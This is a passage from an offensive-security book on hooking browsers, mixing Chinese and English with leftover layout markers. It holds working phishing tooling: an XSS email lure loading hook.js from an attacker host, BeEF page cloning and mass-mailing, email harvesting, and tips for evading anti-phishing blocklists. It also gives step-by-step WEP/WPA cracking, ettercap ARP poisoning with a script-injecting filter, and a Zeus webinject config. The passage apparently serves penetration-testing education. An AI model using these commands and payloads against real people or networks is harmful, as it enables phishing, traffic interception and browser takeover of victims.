    * 复制并修改现有网站——与从零开始构建类似，但你可以利用互联网上已有的已发表内容。大多数现代浏览器都支持使用“保存页面”功能保存当前激活的网站。这可以加快内容构建速度。保存后，你可以直接在 HTML 中修改标题和表头字段。

    * 克隆现有网站——与复制并修改现有网站类似，但你不需要保存内容并进行修改，而是直接克隆整个网站。

    * 显示错误页面——通常只需显示一个错误页面即可。最终页面看起来像是服务器错误，但实际上浏览器内部执行你的指令。

-   如前文所述，XSS 方法有时不需要为钓鱼攻击创建全新网站。如果你在目标网络应用中进行了 Web 侦察，并发现了 XSS 漏洞，你可以利用该漏洞使其作为钓鱼站点。

-   这种方法的优势在于，目标用户不太可能对指向他们熟悉的 URL 产生怀疑。它还为钓鱼诱饵提供了借口。假设你发现了一个可以 URL 编码的 XSS 漏洞，你可以在钓鱼邮件中提交以下内容（仅在 Firefox 上有效）：

    “Hi IT Support,

    I’ve been browsing your website and I’ve noticed a weird error message when I perform a search. After I click the ‘Search’ button I end up on this page: 

    [[`browservictim.com/search.aspx?q=%3c%73%63%72%69%70%74%20%73%72%63%3d%27%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%73%65%72%76%65%72%2e%63%6f%6d%2f%68%6f%6f%6b%2e%6a%73%27%3e%3c%2f%73%63%72%69%70%74%3e`](http://browservictim.com/search.aspx?q=%3c%73%63%72%69%70%74%20%73%72%63%3d%27%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%73%65%72%76%65%72%2e%63%6f%6d%2f%68%6f%6f%6b%2e%6a%73%27%3e%3c%2f%73%63%72%69%70%74%3e)](http://browservictim.com/search.aspx?q=%3c%73%63%72%69%70%74%20%73%72%63%3d%27%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%73%65%72%76%65%72%2e%63%6f%6d%2f%68%6f%6f%6b%2e%6a%73%27%3e%3c%2f%73%63%72%69%70%74%3e)

    I’m unsure if this is something wrong with my computer or if you guys are having an issue?

    Kind Regards,

    Joe Bloggs”

-   这个 URL-encoded 查询参数实际上是：

    ```
    <script src='http://browserhacker.com/hook.js'></script>
    ```

-   **如何克隆网站** 你可以使用多种方法克隆网站。例如，你可以使用 wget 命令行工具本地克隆网站：

    ```
    wget -k -p -nH -N http://browservictim.com
    ```

    这些参数的含义如下：

    *   `-k`——将下载文件中的链接转换为指向本地复制文件的链接，而非依赖原始或在线内容。

    *   `-p`——下载所有必要的辅助文件（如图片、样式表），确保页面在本地无需在线连接即可显示。

    *   `-nH`——禁止将文件下载到以主机名命名的预定义文件夹中。

    *   `-N`——启用时间戳，使本地文件的时间与源文件保持一致。

-   BeEF 包含社交工程扩展的网站克隆功能。框架默认会在克隆的网页内容中注入其 JavaScript 钩子。要利用此功能，运行 ./beef 启动 BeEF，然后在另一个终端通过以下命令与 BeEF 的 RESTful API 交互：

    ```
    curl -H “Content-Type: application/json; charset=UTF-8”
     -d ‘{“url”:”<URL of site to clone>”,”mount”:”<where to mount>”}’
     -X POST http://<BeEFURL>/api/seng/clone_page?token=<token>
    ```

    执行后，BeEF 控制台会报告：

    ```
    [18:19:17][*] BeEF hook added :-D
    ```

    参见 Figure 2-2 查看 BeEF 控制台输出示例。克隆后的网站可通过访问 http://<BeEFURL>/<where to mount> 来访问。mount 点也可以是网站的根目录。你还可以通过更新 BeEF 克隆页面文件夹中的文件来定制克隆网站：

    ```
    beef/extensions/social_engineering/web_cloner/cloned_pages/<dom>_mod
    ```

    参见 Figure 2-2 查看 BeEF 成功克隆网站后的控制台输出示例。

-   无论使用何种方法构建 HTML，最重要的目标是将钓鱼内容与你的启动代码一起注入。如果你使用 BeEF 的社交工程扩展，此过程会自动完成。对于其他情况，可能需要手动更新 HTML。通常只需在 `</body>` 标签之前插入一行代码：

    ```
    <script src=http://browserhacker.com/hook.js></script>
    ```

-   当钓鱼内容需要通过 Internet 访问时，你需要考虑如何托管你的 Web 应用。近年来，在线虚拟机的成本稳步下降。Amazon 最小的计算单元每小时仅收费 US$0.02（2013 年价格，不含数据存储和传输费用）。如果你运行一个持续 40 小时的攻击，费用不到 1 美元。

-   一旦你的托管环境配置并激活，你需要确保域名与内容主题相符。与虚拟计算的成本效益类似，域名注册在过去几年也因注册商竞争而变得更加负担得起。像 namecheap.com 或 godaddy.com 这样的注册商为 .com 域名提供约 10 美元/年的价格。你可以根据攻击主题注册类似 “europowerregulator.com” 或其衍生域名。

-   **Social-Engineer Toolkit** 大卫·肯尼迪的 Social-Engineer Toolkit (SET) 也包含网站克隆功能。SET 不仅能克隆网页，还能注入恶意钩子，例如恶意 Java 小程序或 Metasploit 浏览器漏洞。你可以从 [`github.com/trustedsec/social-engineer-toolkit/`](https://github.com/trustedsec/social-engineer-toolkit/) 下载 SET。要利用 SET 的 Java 小程序攻击向量（包括网站克隆），运行 sudo ./set，然后按照以下步骤操作：

    Level1 **1.** 选择“网站攻击向量”选项。  
    **2.** 选择“Java 小程序攻击方法”选项。  
    **3.** 选择“站点克隆”选项。  
    **4.** 输入你想克隆的 URL。  
    **5.** 继续设置后续的载荷或反向 shell 选项。  

    /Level1 当 SET 的 Web 服务器开始监听后，你可以通过浏览器访问设备的 IP 地址。

* * *

 end feature   start feature 

* * *

 end feature 


URLCrazy，由 Andrew Horton 开发，是一个非常实用的工具，能够自动查找域名拼写错误及其他变体。它可从 [`www.morningstarsecurity.com/research/urlcrazy`](http://www.morningstarsecurity.com/research/urlcrazy) 获取，使用方式为执行：

```
./urlcrazy <domain>
```

请参考 Figure 2-3 查看该命令的示例输出。

* * *

end feature 

你也可以通过在缩短 URL 中封装你的网络钓鱼站点，增加一层混淆。这在针对移动设备时尤为有用。

获得域名名称的好处还包括能够在 DNS 记录中配置 Sender Policy Framework（SPF）设置。SPF 记录可以以 SPF 或 TXT 记录的形式出现在 DNS，它允许域名指定哪些 IP 地址被允许代表其发送电子邮件。

start figure 

**Figure 2-3:** URLCrazy 输出



end figure 

该方案最初是为了阻止垃圾邮件发送者伪造域名发送电子邮件而引入的。SMTP 服务器在收到特定 IP 地址的电子邮件时，可查询报告域名的 SPF 记录并验证该 IP 是否获准发送邮件。例如，microsoft.com 的 TXT 记录包含：

```
v=spf1 include:_spf-a.microsoft.com include:_spf-b.microsoft.com inc
lude:_spf-c.microsoft.com include:_spf-ssg-a.microsoft.com ip4:131.1
07.115.215 ip4:131.107.115.214 ip4:205.248.106.64 ip4:205.248.106.30
 ip4:205.248.106.32 ~all"
```

该记录表明：

*   v=spf1—使用的 SPF 版本为 1。

*   include—对每个 include 语句查询相应 DNS 条目中的 SPF 记录。这样就可以引用其他来源的策略。

*   ip4—对每个 ip4 语句匹配电子邮件是否来源于指定的 IP 范围。

*   ~all—最终的兜底语句，执行 SOFTFAIL，对所有其他来源进行软失败。SOFTFAIL 由 ~ 标识，是一种 SPF 修饰符。修饰符可以是 +（PASS），?（NEUTRAL），‑（FAIL）或 ~（SOFTFAIL）。通常，标记为 SOFTFAIL 的消息会被接受，但可能会被标记。

在为你的网络钓鱼站点域名正确配置 SPF 记录后，你就能发送不太可能被邮件传输代理和客户端标记为垃圾邮件的电子邮件。这引出了生成实际网络钓鱼邮件的下一阶段。

#### Phase 2: The Phishing E‑mails

现在你已经完成了构建逼真的钓鱼站点的所有准备工作，需要一个方法来诱导目标访问该站点。传统上，主要手段是通过网络钓鱼电子邮件。Figure 2-1 是一个典型的在线银行钓鱼邮件的示例。但在针对性渗透中，你往往拥有更多关于目标的信息，从而可以在措辞和格式上更具体。

首先，你需要生成目标电子邮件地址。利用 Google、LinkedIn 以及其他社交媒体站点是常见的第一步。工具如 Maltego、jigsaw.com、theHarvester 和 Recon-ng 可以帮助优化这一过程。

start feature 

* * *

**Harvesting Contacts** Recon-ng，可从 [`bitbucket.org/LaNMaSteR53/recon-ng`](https://bitbucket.org/LaNMaSteR53/recon-ng) 获取，是一个模块化的网络侦察框架，使用 Python 编写。该工具提供的控制台界面与 Metasploit 类似。要从 jigsaw.com 收集电子邮件，请执行以下步骤：

```
recon-ng > use recon/contacts/gather/http/jigsaw
recon-ng [jigsaw] > set COMPANY <target company name>
recon-ng [jigsaw] > set KEYWORDS <additional keywords if you want>
recon-ng [jigsaw] > run
recon-ng [jigsaw] > back
recon-ng > use reporting/csv_file
recon-ng [csv_file] > run
```

数据目录中应包含名为 results.csv 的文件，里面列有收集到的联系人。如果你拥有 LinkedIn API 密钥，还可以使用 recon/contacts/gather/http/linkedin_auth 模块。theHarvester 是另一个 Python 脚本，可下载自 [`www.edge-security.com/theharvester.php`](http://www.edge-security.com/theharvester.php)。类似 Recon-ng，theHarvester 可以利用公开搜索引擎和 API 驱动的存储库来构建电子邮件联系人列表。使用 theHarvester 的方法是：

```
./theHarvester.py -d <target domain> -l <limit number of results>\
 -b <data source: for example google>
```

* * *

end feature 

一旦你拥有电子邮件地址列表，就需要构建诱饵。与构建钓鱼站点类似，你需要花时间确保邮件的前提看起来真实可信。

当然，你最终需要向目标发送邮件。一种方法是使用 BeEF 的社交工程大规模邮件发送功能。

start feature 

* * *

**Using BeEF’s Mass Mailer** BeEF 的大规模邮件功能需要一定的配置，但一旦设置完成，就能极大简化发送纯文本和 HTML 编码格式的多封邮件的过程。首先，你需要编辑 beef/extensions/social_engineering/config.yaml，特别是 mass_mailer 部分：

```
user_agent: “Microsoft-MacOutlook/12.12.0.111556”
host: “<your SMTP server>“
port: <your SMTP port>
use_auth: <true or false>
use_tls: <true or false>
helo: “<from address domain - for eg: europowerregulator.com>“
from: “<from email address - for eg: marketing@europowerregulator.com>“
password: “<SMTP password>“
```

接下来需要配置电子邮件模板本身。在生成实际模板之前，需要配置邮件可能依赖的资源，例如图片。这同样在社交工程扩展的配置文件中完成。你可以在 BeEF 中找到名为 “edfenergy” 的示例。在同一 config.yaml 文件中，可以看到其配置：

```
edfenergy:
  images: [“corner-tl.png”, “main.png”, “edf_logo.png",
    “promo-corner-left.png”, “promo-corner-right-arrow.png”,
    “promo-reflection.png”, “2012.png”, “corner-bl.png”,
    “corner-br.png”, “bottom-border.png”]
  images_cids:
    cid1: “corner-tl.png”
    cid2:  “main.png”
    cid3:  “edf_logo.png”
    cid4:  “promo-corner-left.png”
    cid5:  “promo-corner-right-arrow.png”
    cid6:  “promo-reflection.png”
    cid7:  “2012.png”
    cid8:  “corner-bl.png”
    cid9:  “corner-br.png”
    cid10: “bottom-border.png”
```

* * *

end feature 

这些设置主要指定模板中将被替换的图片，以及对应的 ID 引用。邮件模板位于 beef/extensions/social_engineering/mass_mailer/templates/edfenergy/，包含 mail.plain 和 mail.html 两个文件。这些文件采用简单的模板系统，在发送邮件时动态替换内容，包括本地图片的引用和收件人的名称。BeEF 大规模邮件发送中的图片并不通过网络引用，而是先下载后以 Base64 编码嵌入邮件正文。如果你查看 mail.html，会看到 “_\_name\_\_” 和 “_\_link\_\_” 之类的占位符，这些在提交大规模邮件命令时会被动态替换。和网页克隆一样，大规模邮件发送是通过 RESTful API 接口执行的，因此在 BeEF 运行后，打开新终端并执行以下 curl 命令：

``` 
curl -X POST -H "Content-Type: application/json" -d '{"template":"edfenergy","subject":"Your Subject","body":"Your Body"}' http://localhost:5000/beef/api/mass_mailer
``` 


```curl -H "Content-Type: application/json; charset=UTF-8" \
-d '{“template”:”edfenergy”,”subject”: "<Email subject>","fromname": "<Fromname>","link": "<URL to phishing site>","linktext": "<Fake link text>","recipients":[{ "<Target email account>": "<Target’s name>","<Target email account 2>": "<Target 2’s name>"}]}' \
  -X POST http://<BeEFURL>/api/seng/send_mails?token=<token>
```

Breaking down the options, you can configure the following:

*   template—Configures which template to use, in this instance, the edfenergy template.

*   subject—Sets the subject of the phishing e-mail.

*   fromname—Configures the name of the sender. This doesn’t necessarily have to match your “from” address from the global configuration.

*   link—Sets the phishing site address.

*   linktext—Some of the templates will embed the phishing link, but display linktext instead.

*   recipients—The recipients field is a set of values for the recipients broken apart by their e-mail address and their name. The name field will be populated into the templates. You can have as many recipients as you want here, separated by commas.

*   BeEFURL—The URL to your BeEF instance.

*   token—The BeEF RESTful API token. This is used to access the BeEF server.

Once executed, the BeEF console will report:

```
Mail 1/2 to [target1@email.com] sent.
Mail 2/2 to [target2@email.com] sent.
```

* * *

end feature 

Once the e-mail lures are submitted, the phishing campaign is live. It’s wise to test this against yourself prior to submitting to live targets. This allows you to fix any issues within the e-mail templates or the phishing site itself.

### Baiting

Luring a target to a phishing site doesn’t always have to rely on phishing e-mails. Over time, a social engineering technique emerged that included the use of physical baits. This was demonstrated in 2004 when security researchers were able to coerce people on the street to divulge their passwords in exchange for chocolate.15

Of course, acquiring someone’s password doesn’t necessarily help you hook into their browser, but the techniques apply just as equally to surreptitiously placed USB storage devices or sticks. A person who notices and picks up a USB drive from the street is potentially going to plug it into their computer and have a look at the files within. After all, we humans are a curious bunch!

Using USB drives, you can potentially trick users into connecting their browser to an attacker-controlled website. This may be as simple as embedding a HTML file that includes references or links back to your phishing site. Antivirus solutions aren’t likely to flag this as suspicious because distributing HTML files on external storage is quite common. Naturally, this same technique will work for CD-ROMS as well. Another emerging baiting technique is malicious Quick Response (QR) codes. A QR code is a two-dimensional barcode that has been growing in popularity for smart phone use. An example QR code is shown in Figure 2-4. Originally used in the manufacturing industry for its ability to be scanned quickly, it has been growing steadily and is often found on posters, bus stops, and other retail items.

Once you have a QR code application on your smart phone, you can point your camera at the code and the text will be displayed. If the QR code is a URL, your phone will offer to browse to that link too, or in some circumstances browse there automatically. According to researchers from Symantec,16 criminals are already starting to print custom QR code stickers and leaving them in popular, often crowded locations.

Generating QR codes is made extremely simple by using Google’s Chart API17. To generate your own QR codes you can use this tool by visiting the following address. You’ll need to specify the width, height, and data to be converted into a QR code:

[[`chart.googleapis.com/chart?cht=qr&chs=`](https://chart.googleapis.com/chart?cht=qr&chs=)300x300&chl=http://browserhacker.com](https://chart.googleapis.com/chart?cht=qr&chs=300x300&chl=http://browserhacker.com)

Alternatively, you can leverage BeEF’s “QR Code Generator” module to generate the Google chart URLs for you. To configure this extension, edit the beef/extensions/qrcode/config.yaml file:

```
enable: true
target: ["http://<phishing url>","/<relative link from BeEF>"]
qrsize: "300x300"
```

Once configured, when you start BeEF it will report the available Google chart URLs.

 start figure 

**Figure 2-4:** QR code


 end figure 

Don’t forget to leverage URL shorteners and other obfuscation techniques to try to hide the phishing site’s address.

### Anti-Phishing Controls

When performing a phishing attack, it’s important to remember some of the controls that are likely to trip you up along the way. Modern browsers and e-mail clients will often try to reduce the likelihood of phishing and phishing e-mails from making their way to recipients. You have explored the configuration of SPF records to help reduce the chances that your e-mails will be flagged as spam, but you mustn’t forget the web browser’s ability to detect malicious content.

Google’s Safe Browsing API,18 which is used by both Chrome and Firefox, is a real-time Internet-exposed API that allows browsers to check the validity of URLs before they’re rendered in the browser. The API is used to not only warn users of phishing sites reported by individuals, but also sites that may contain malware.

If your phishing campaign is targeted to a small enough audience, the likelihood that one of the targets will report the domain or it being automatically discovered (at least initially) is quite low. This period of effective phishing is known as the Golden Hour of Phishing Attacks. This is because research performed by Trusteer19 indicated that 50 percent of phishing victims have their information disclosed during the first hour a phishing site is available.

 start feature 

* * *

**Other Anti-Phishing Tools** Apart from Google’s Safe Browsing API, a host of other platforms will try to deter users away from potentially unsafe sites, including: 

*   Internet Explorer’s Anti-Phishing Filter

*   McAfee’s SiteAdvisor

*   Web of Trust’s WOT add-on

*   PhishTank’s add-ons

*   Netcraft’s Anti-Phishing extension

* * *

 end feature 

The trick is to ensure that you balance the audience scope of your e-mail campaign and your phishing site appropriately. Target too many people, and your site may get reported quickly. Target too few, and you may not get any people visiting your phishing site.

Another technique to help reduce the likelihood of your phishing site getting blacklisted is to implement firewall or .htaccess rules. This would be configured to only display the phishing content if it’s coming from your target’s organizational web proxy.

Advanced versions of this scheme were spotted in the wild in what RSA called the “bouncer phishing kit”.20 This phishing kit automated the distribution of dynamic phishing URLs to victims, and if you tried to visit the content without a unique ID, or too many times, it would return an HTTP 404 error message.

As previously discussed, sometimes you can’t technically insert your initiating instructions into a vulnerable web application or gain access to a communication channel. This often leaves you with only the end users you can target. With the right motivation, people are more than willing to perform actions to their own detriment. Do not discount the power of using social engineering techniques to take control of web browsers.

## Using Man-in-the-Middle Attacks


假设你利用的方法在目标浏览器中嵌入初始化控制代码，不需要依赖通信端点的滥用。一种较老的技术，即中间人攻击（Man-in-the-Middle attack，MitM），自人类开始通过不受信任的通道发送消息以来，一直是一种流行的攻击技术。

其概念很简单。攻击涉及对手窃听，甚至在发送方和接收方之间的通信通道途中修改通信内容。为了攻击成功，发送方和接收方都不能确定其通信已被窥探或篡改。

加密学的挑战之一是开发安全通信技术，特别是降低中间人攻击的可能性。因此，许多加密算法主要致力于提升机密性和完整性。正如所有安全增强和流程一样，每向前迈出一步，行业在保护信息和通信安全方面的进展，攻击者也会迅速跟进，寻找绕过这些安全控制的方法。

随着浏览器逐渐成为获取信息的标准方式，它在通过不受信任通道发送或接收信息方面也发挥着重要作用。这为你提供了一个非常有用的途径，用于在浏览器中注入初始代码。

### Man-in-the-Browser

传统上，MitM 攻击发生在 OSI 模型的较低层，确实是在应用层（即 HTTP 等）之下。Man-in-the-Browser（MitB）攻击是传统 MitM 攻击的兄弟，完全在浏览器内部进行。大多数持续的 JavaScript 通信（钩子）逻辑的核心特征实际上是一种 MitB 攻击，体现出以下特性：

*   `隐藏在用户之外`
*   `隐藏在服务器之外`
*   `能够修改当前页面的内容`
*   `能够读取当前页面的内容`
*   `不需要受害者介入`

这种拦截方式也常见于银行恶意软件攻击（例如 Zeus 或 SpyEye，它们提供注入功能）。这些便捷功能允许 Botnet 操作者指定配置文件，描述如何以及注入什么到 HTTP(S) 响应中。注入完全在浏览器内部进行，且不破坏或干扰浏览器内的 SSL 控制。例如：

```
set_url https://www.yourbank.com/*
data_before
<div class='footer'>
data_end
data_inject
<script src='https://browserhacker.com/hook.js'></script>
data_end
data_after
</body>
data_end
```

通用的 Zeus 配置文件会在浏览器访问 https://www.yourbank.com/ 以内的任何页面时激活。它会查找文本 `<div class='footer'>`，并在其之后插入新的 JavaScript 远程资源。这与你之前检查的初始控制示例是相同的。当该内容渲染后，浏览器会认为该内容来自合法网站。

如果攻击者能够在系统上执行进程，特别是当这发生在浏览器的相同处理空间内时，那么对于受害者来说局势基本上已经结束。这类恶意软件通常具备不止 HTML 注入的功能，通常还包括表单抓取、操作系统级别的键盘记录以及截图获取。

### 无线攻击

无线网络技术的最大进步之一是无线网络的开发和爆炸式增长。正如 Uncle Ben 向蜘蛛侠所说：“With great power, comes great responsibility.”，拥有强大的技术带来巨大的责任。

在所有颠覆性技术中，无线网络在安全研究人员和网络工程师之间一直是争议较大的。当然，一旦通信开始通过空中传输，摆脱有线限制，它们立即面临来自更多 adversaries 的威胁。

无线网络（尤其是 IEEE 802.11 系列）的最初威胁是攻击者窃听通过空中传输的通信内容。Fluhrer、Mantin 和 Shamir 在 2001 年首次发表了关于窃听无线网络流量的研究，这仅是在 802.11 标准初始 ratification 几年后。随后，展示绕过有线等效隐私（WEP）控制的工具相继发布。

**802.11 安全控制** 自 IEEE 802.11 问世以来，安全控制被引入以降低无线传输的机密性、完整性或可用性丧失的可能性。随时间推移，安全界对这些控制的弱点进行了批判性分析。以下是无线控制及其缺陷的简要概述。**SSID 隐藏** 大多数路由器允许不广播其服务集标识符（SSID）。遗憾的是，为了使无线客户端能够运行，它们通常会请求连接到命名的 SSIDs，这实际上会泄露该信息。像 Kismet 或 Aircrack 这样的工具可以帮助你发现 SSIDs。**静态 IP 过滤** 与 SSID 隐藏类似，静态 IP 过滤可能看似限制了无线路由器的 DHCP 连接，但 IP 地址可以通过无线工具被发现，并手动配置在攻击者的无线接口上。**MAC 地址过滤** 与 IP 过滤面临相同的问题。攻击者使用无线工具确定已连接的 MAC 地址后，可以将自身的 MAC 地址修改为匹配其中一个已连接客户端的 MAC 地址。在 Windows 上，你可以在无线适配器的高级属性中配置“网络地址”设置来修改 MAC 地址。在 Linux 上，可以使用 ifconfig 命令修改 MAC 地址：

```
ifconfig <interface> hw ether <MAC address>
```

OS X 与 Linux 类似：

```
sudo ifconfig <interface> ether <MAC address>
```

**WEP** 你可以使用 Aircrack-ng23 套件轻松破解 WEP 密钥：Level1 **1.** 启动能够注入流量的无线适配器的监听模式：

```
airmon-ng start <adaptor - for example: wifi0>
 <wireless channel - for example: 9>
```

这将把被动接口置于监听模式。 **2.** 使用监听模式适配器测试数据包注入。这通常是与 wifi0 不同的适配器，例如 Atheros 接口：

```
aireplay-ng -9 -e <SSID of target network>
 -a <MAC of target access point>
 <passive interface - for example: ath0>
```

 **3.** 开始捕获 WEP 初始化向量：

```
airodump-ng -c <wireless channel - for example: 9>
 --bssid <MAC of target access point>
 -w output <passive interface – for example: ath0>
```

 **4.** 将自身的 MAC 地址关联到无线接入点：

```
aireplay-ng -1 0 -e <SSID of target network>
 -a <MAC of target access point>
 -h <Our MAC address> <passive interface - for example: ath0>
```

 **5.** 启动 Aireplay-ng 的 ARP 请求重放模式，生成 WEP 初始化向量：

```
aireplay-ng -3 -b <MAC of target access point>
 -h <Our MAC address>
 <passive interface - for example: ath0>
```

/Level1 现在输出 cap 文件应正在增长，其中包含包括 WEP 初始化向量在内的流量。要在其内部破解 WEP 凭据，执行以下命令：

```
aircrack-ng -b <MAC of target access point> output*.cap
```

或

```
aircrack-ng -K -b <MAC of target access point> output*.cap
```


**WPA/WPA2** 与 WEP 破解不同，WPA/WPA2 破解只能在特定条件下进行。其中一种情况是 WPA 以预共享密钥（pre‑shared key）模式配置，即使用共享密码而非证书。你需要使用诸如 `airodump-ng` 之类的工具捕获 WPA/WPA2 认证握手。这意味着等待新客户端连接或强制已连接的客户端断开并重新连接。最后，你需要对握手进行暴力破解以获取预共享密钥。Level1 **1.** 将能注入的无线适配器设置为监听模式：

```
airmon-ng start <适配器 - 例如：wifi0>
 <无线信道 - 例如：9>
```

这将把被动接口置于监听模式。 **2.** 开始捕获 WPA 握手：

```
airodump-ng -c <无线信道 - 例如：9>
 --bssid <目标接入点的 MAC>
 -w psk <被动接口 - 例如：ath0>
```

**3.** 你现在可以强制客户端断开并（希望）重新认证：

```
aireplay-ng -0 1 -a <目标接入点的 MAC>
 -c <你想让其断开的客户端 MAC>
 <被动接口 - 例如：ath0>
```

**4.** 捕获握手后，你可以尝试破解它：

```
aircrack-ng -w <密码字典文件>
 -b <目标接入点的 MAC> psk*.cap
```

/Level1 

* * *

 end feature 

尽管窃听网络流量可能有助于你获取敏感信息，但它不一定直接转化为数据篡改。为了将初始化代码嵌入网页流量，你需要超越单纯的窃听技术。

一旦你获得了无线网络的访问权限，你就能进行其他网络攻击，例如 ARP 欺骗（ARP spoofing），以冒充网页代理或其他网关设备。ARP 欺骗技术在下面的章节中讨论。

除了尝试未经授权访问无线网络以进行中间人（MitM）攻击外，另一种常见手段是骗令客户端将自己的 MAC 地址改为计算机 A 的 MAC 地址。

下面是 Wireshark 中显示的 ARP 请求和响应示例，如同在 Figure 2-5 中所示。

 start figure 

**Figure 2-5:** Wireshark 中的 ARP 流量



 end figure 

ARP 欺骗之所以可行，是因为 ARP 协议缺乏验证 ARP 流量的方法。ARP 欺骗之所以特别有效，是因为你不必等待广播请求 MAC 地址。

你可以主动向目标机器发送“ gratuitous ARP ”消息，告诉它某个 IP 对应的 MAC 地址，从而更新目标本地的 ARP 缓存；随后所有后续的 IP 流量会被发送到你而不是受害者机器。

Ettercap（由 Alberto Ornaghi 和 Marco Valleri 开发）<sup>27</sup> 是在本地网络上进行此类 MitM 攻击的较流行工具。除了 ARP 中毒攻击外，该工具还能用于 DHCP 欺骗、端口劫持、数据包过滤等功能。dsniff（由 Dug Song 开发）<sup>28</sup> 是一个独立的工具套件，提供与 Ettercap 类似的功能，包括用于捕获凭据的多种过滤器以及其他 MitM 攻击。

如果上述 ARP 欺骗示例在使用对等技术的网络中进行，可能会导致系统瘫痪。下面的示例（以及所有示例）应谨慎使用。现在已经提醒，你可以通过以下命令在终端中使用 ettercap：

```
ettercap -T -Q -M arp:remote -i <网络接口> /<target1>/ /<target2>/
```

下面的属性会选择以下选项：

* **‑T** — 以文本模式运行。

* **‑Q** — 以超静默模式运行，抑制大量输出。

* **‑M** — 执行 MitM 攻击。

* **arp:remote** — 指定进行 ARP 中毒攻击，remote 选项允许你监听目标网关的远程 IP 流量。

* **‑i** — 指定网络接口，例如 wlan0。

* 两个目标让你指定想要中毒的 IP 地址集合，这可以是 IP 范围或整个子网。例如，要中毒子网中所有主机并针对通过网关的流量，使用 `/<网关 IP>/`。

上述命令的输出类似于下面的示例，其中包括在本地网络中向 DropBox 客户端显示的 HTTP 响应：


ettercap NG-0.7.3 copyright 2001-2004 ALoR & NaGA

Listening on en0... (Ethernet)

   en0 ->  60:C5:47:06:85:22       192.168.1.1     255.255.255.0

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to UID 65534 GID 65534...

   0 plugins (disabled by configure...)
  39 protocol dissectors
  53 ports monitored
7587 mac vendor fingerprint
1698 tcp OS fingerprint
2183 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |===================================>| 100.00 %

4 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.1.254 00:04:ED:27:D3:8A

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help


Packet visualization restarted...


Sun Mar  3 11:24:11 2013
TCP  108.160.160.162:80 --> 192.168.1.101:50113 | AP

HTTP/1.1 200 OK.
X-DB-Timeout: 120.
Pragma: no-cache.
Cache-Control: no-cache.
Content-Type: text/plain.
Date: Sun, 03 Mar 2013 03:24:08 GMT.
Content-Length: 15.
.
{"ret": "punt"}

In addition to simply ARP spoofing, ettercap includes plugins and filters that enable you to modify traffic as it passes through your system. This will come in very handy when you are injecting your initial controlling instructions into your target browser.

When creating an injection filter targeting web traffic, a problem frequently arises. That is, web servers will often send data back using compression. This will make your attack more complicated and increase the work you need to do.

You have two options here. Your first option is to mangle the Accept-Encoding header, and the second is to replace Accept-Encoding values with identity. The identity value helps ensure that the server doesn’t use compression and almost guarantees that you will get plain-text data back. This should make your attack much simpler.

Creating filters for traffic alteration (assuming plain-text data) within ettercap is as simple as creating a text file with the following:

```
if (ip.proto == TCP && tcp.src == 80) {
  replace("</body>", "<script src='http://browserhacker.com/hook.js'>
    </script></body>");
  replace("Accept-Encoding: gzip, deflate", 
    "Accept-Encoding:identity              ");
}
```

Once you have saved your file, you can convert it into an ettercap filter by executing:

```
etterfilter input.txt -o hookfilter.ef
```

To run ettercap with the filter, you specify the ef file with the -F option. For instance:

```
ettercap -T -Q -F hookfilter.ef 
 -M arp:remote -i <network interface> // //
```

By specifying two empty targets, ettercap will ARP spoof all the traffic it detects, not just target particular IP addresses. A word of caution if doing this in large densely populated subnets: You may suddenly become the recipient of a very large amount of traffic because every host in the subnet that is talking to any other host in the subnet will now send its traffic your way. This can inadvertently cause a denial of service within the network. Therefore selecting the gateway as one of the target sets is recommended, as it is likely most web traffic will be traversing the gateway.

 start feature 

* * *

**sslstrip** Moxie Marlinspike’s sslstrip is a tool released in 2009 that transparently hijacks HTTP traffic. It achieves this by looking for HTTPS links and redirects, and then modifies them to use HTTP over a local proxy. You can run this software to tamper with and review traffic that was intended for HTTPS. Sslstrip itself does not include native ARP spoofing, but is easy enough to combine with arpspoof or ettercap. You can read more about sslstrip at [`www.thoughtcrime.org/software/sslstrip/`](http://www.thoughtcrime.org/software/sslstrip/) 

* * *

 end feature 

Although ettercap is a great multi-purpose tool to perform a variety of MitM attacks, you’re primarily focused on injecting initial instructions into the target browser. The previous example leveraged ettercap, but thanks to research by Ryan Linn and Steve Ocepek,29 there’s an even quicker way to perform this attack.

The tool, known as Shank, leverages BeEF combined with Metasploit’s PacketFu library. It automates the insertion of BeEF’s initial controlling code into web traffic as it traverses the local subnet.

Under the hood, the Ruby script is performing ARP poisoning and HTTP content injection. Shank talks to BeEF and determines if a victim IP address has already had the initial controlling code injected. If the browser hasn’t had the code injected, then it will insert it. This optimizes the injection so that each browser runs the controlling code only once.

To perform this attack, you need to have BeEF installed and running and have the PacketFu Ruby gem on your system. You can install the library by using the following command:

```
gem install packetfu
```

After downloading the scripts from [`github.com/SpiderLabs/beef_injection_framework`](https://github.com/SpiderLabs/beef_injection_framework), you need to configure them to your environment. First, update the @beef_ip setting in shank.rb:

```
DEBUG = true
ARP_TIMEOUT = 30
@beef_ip = '192.168.2.54'
@beef_user = 'beef'
@beef_pass = 'beef'
```

